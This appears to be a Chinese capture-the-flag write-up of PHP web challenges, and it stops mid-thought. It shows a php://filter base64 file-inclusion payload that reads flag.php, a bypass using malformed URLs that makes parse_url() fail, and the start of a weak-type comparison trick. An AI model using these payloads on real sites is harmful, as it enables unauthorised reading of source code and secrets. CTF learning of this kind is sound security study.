 php类型比较说明文档
PHP文件包含

?file=file.php

要读源码，加参数

`php://filter/read=convert.base64-encode/resource=flag.php`

得到
PD9waHAKLy9tb2VjdGZ7TElGXzFTX3YzcnlfRWFTeX0K

base64解码后得到flag(好叭这个flag.php是猜的)
Parse_URL

…..这是原题。
最好的语言里的parse_url()函数有个feature，当它接收到一个无法parse的url参数时会返回FALSE

> On seriously malformed URLs, parse_url() may return FALSE.

php parse_url函数文档

```php
$url = urldecode($_SERVER['REQUEST_URI']);
$url = parse_url($url, PHP_URL_QUERY);
...
if (preg_match("/\w+/i", $url))#匹配[A-Z][a-z][0-9]和下划线
{
    die("...");
}
```

false当然不是character啦啦啦啦
所以把url里头的斜杠多写几个就可以啦
然后再配上一个小小的参数就爆flag了

`?_=0`

flag是啥？不重要了

#### PHP弱类型的复仇

先干啥好呢？F12啊
	
```php
$pattern='/^(?=[1-9])(?=.[A-Z]).{10,12}$/';
#匹配以一个数字开头，紧跟一个大写字母的长度为10-12的串
$gugugu=$_GET['gugugu'];
if (preg_match($pattern, $gugugu)===0) {
	echo "正则看懂了嘛";#看懂啦
}
else{
	$secret="******";
	if ($gugugu==$secret) {
		echo "tqdl，给师傅递flag<br>".$flag;
	}
}
```
。
这道题。。。。ORZ dalao。。。关键在于“以一个数字开头，紧跟一个大写字母的长度为10-12的串”如何表示一个数字，构造一个弱类型比较。
0x?小写。pass
然后我就智障了
1*100000000的计算结果?
哦
